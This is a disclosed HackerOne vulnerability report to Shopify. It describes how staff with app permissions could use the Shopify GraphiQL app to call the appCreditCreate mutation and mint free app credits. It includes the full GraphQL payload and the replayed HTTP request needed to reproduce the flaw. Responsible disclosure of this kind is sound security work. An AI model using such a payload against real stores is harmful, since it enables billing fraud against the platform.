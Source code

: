 # Create free Shopify application credits.

## Report Details
- **Report ID**: 1257428
- **URL**: https://hackerone.com/reports/1257428
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-11T11:47:35.520Z
- **Disclosed**: 2021-09-10T21:53:32.941Z

## Reporter
- **Username**: jmp_35p
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Details
According to docs available at https://shopify.dev/api/admin/rest/reference/billing/applicationcredit, `appCreditCreate` is used to issue credits to merchants that can be used towards future app purchases in Shopify. I believe `appCreditCreate` mutation shouldn't be accessible to store owners and staffs who have `apps` permission. This claim is confirmed by the response returned when /admin/internal/web/graphql/core endpoint is hit as shown in appCredit_B.png. However, Shopify GraphiQL app makes the said mutation accessible (see appCredit_A.png for details). I had to confirm that the credit was really created by visiting the billing page, appCredit_C.png shows the successful creation of the $500.00 credits. Presented below is the GraphQL query which must be issued from the said app. 

```
{"operationName":"AppCreditCreatePayload","variables":{"description":"Themes credits","amount":{"amount":500.00,"currencyCode":"USD"},"test":false},"query":"mutation AppCreditCreatePayload($description:String!,$amount:MoneyInput!,$test:Boolean){\n appCreditCreate(description:$description,amount:$amount,test:$test){\n      appCredit{\n      amount{\n    amount\n     currencyCode\n     __typename\n    }\n   createdAt\n      description\n      id\n      test\n    __typename\n    }\n     userErrors{\n      field\n       message\n       __typename\n       }\n     __typename\n      }\n   }\n"}

```

Setup
1. Install Shopify GraphiQL app.
2. A staff with `apps` permission.

Steps to reproduce
1. Open the app and perform any action.
2. A POST request similar to the one below should be sent to the repeater tab.
```
POST /admin/api/2021-07/graphql HTTP/2
Host: shopify-graphiql-app.shopifycloud.com
Cookie: _shopify_graphiql_app=RJlzS4n3qPHR0fClrTa1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Csrf-Token: FS1j+3c4nU

{"query":"{\n  shop {\n    name\n  }\n}\n","variables":null,"operationName":null}

```
3. Replace the request body with the query provided above.
4. Alternatively, the action described above could also be performed directly from the app.

## Impact

Unlimited free application credits can be created.

## Attachments
- appCredit_B.png
